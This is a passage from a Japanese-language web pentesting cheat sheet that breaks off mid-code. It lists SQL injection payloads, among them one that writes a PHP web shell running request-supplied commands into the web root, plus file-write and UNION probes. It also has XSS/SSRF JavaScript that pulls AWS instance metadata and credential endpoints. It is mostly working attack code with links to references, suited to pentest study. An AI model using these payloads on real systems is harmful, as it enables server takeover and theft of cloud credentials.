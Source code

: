 ``` sql
select privilege_type FROM information_schema.user_privileges where grantee = "<username>"

-- ファイルへの書き込み（ユーザにFILE権限が存在する場合のみ実行可能）
select "Test" into outfile '/var/www/html/Test.txt'

-- WEBシェルの書き込み
select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/webshell.php'

-- UNION injection の動作確認(コメントアウト後に必ずクローズを入れること)
' UNION SELECT 1;-- -';

-- DBのユーザ名を表示（UNION Injection）
' union select user();-- -';
```

- 入力フォームからのinputにSQLiの脆弱性が見つからない場合でも、`Second Order SQL injection`やマルチバイト文字を利用した攻撃方法が存在する可能性がある。
  - [今夜分かるSQLインジェクション対策：Security&Trust ウォッチ（42） - ＠IT](https://atmarkit.itmedia.co.jp/ait/articles/0611/02/news127.html)

参考：[SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#UnionInjections)

参考：[PentesterLab: Learn Web App Pentesting!](https://pentesterlab.com/exercises/from_sqli_to_shell_pg_edition/course)

### XSS

`AWS meta-data`攻撃のサンプル

``` javascript
var xmlhttp = new XMLHttpRequest();
xmlhttp.onreadystatechange = function () {
    if (xmlhttp.readyState == XMLHttpRequest.DONE && xmlhttp.status == 200) {
        console.log("got resp");
        document.body.style.backgroundImage='none';
        var main = document.getElementById("main");
        main.innerHTML = xmlhttp.responseText;
    }
}

xmlhttp.open("POST", "/fetch", true);
xmlhttp.send("http://169.254.169.254/latest/meta-data/");

xmlhttp.open("POST", "/fetch", true);
xmlhttp.send("http://169.254.169.254/latest/meta-data/hostname");

xmlhttp.open("POST", "/fetch", true);
xmlhttp.send("http://169.254.169.254/latest/meta-data/identity-credentials/ec2/info");
```

`Local file injection`攻撃のサンプル

``` bash
var xmlhttp = new XMLHttpRequest();
	xmlhttp.onreadystatechange = function () {
    if (xmlhttp.readyState == XMLHttpRequest.DONE && xmlhttp.status == 200) {
        var output = document.getElementById("output")
        output.style.visibility = "visible";
        var resp = JSON.parse(xmlhttp.responseText);
        document.getElementById("collapsible").checked = false;
        document.getElementById("ver").innerHTML = resp['http_ver'];
        document.getElementById("code").innerHTML = resp['code'];
        document.getElementById("server").innerHTML = resp['server'];
        document.getElementById("date").innerHTML = resp['date'];
        document.getElementById("httpresponse").innerHTML = escape(resp['raw']);

```